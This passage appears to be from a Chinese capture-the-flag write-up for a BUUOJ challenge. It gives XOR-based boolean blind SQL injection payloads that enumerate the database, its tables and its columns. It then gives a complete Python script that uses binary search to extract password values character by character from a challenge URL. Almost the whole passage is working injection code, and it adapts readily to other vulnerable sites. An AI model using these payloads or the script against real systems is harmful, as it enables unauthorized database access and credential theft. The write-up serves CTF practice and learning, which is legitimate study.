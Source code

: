```
?id=1^(ascii(substr(database(),%d,1))>%d)
```

爆表

```
?id=1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)
```

爆字段

```
?id=1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())),%d,1))>%d)
```

据此可以写出基于异或的布尔盲注脚本

```python
import requests
flag = ''
for i in range(1,300):
    low = 32
    high = 128
    mid = (low+high)//2
    while(low<high):
        #payload = 'http://f208e4eb-e9b2-4542-87f2-9348eb856e64.node4.buuoj.cn:81/search.php?id=1^(ascii(substr(database(),%d,1))>%d)' %(i,mid)
        #payload = "http://f208e4eb-e9b2-4542-87f2-9348eb856e64.node4.buuoj.cn:81/search.php?id=1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)" %(i,mid)
        #payload = "http://f208e4eb-e9b2-4542-87f2-9348eb856e64.node4.buuoj.cn:81/search.php?id=1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())),%d,1))>%d)" %(i,mid)
        payload = "http://f208e4eb-e9b2-4542-87f2-9348eb856e64.node4.buuoj.cn:81/search.php?id=1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)" %(i,mid)

        r = requests.get(url=payload)

        if 'ERROR' in r.text:
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if(mid<33 or mid>127):
        break
    flag = flag+chr(mid)
    print(flag)

```



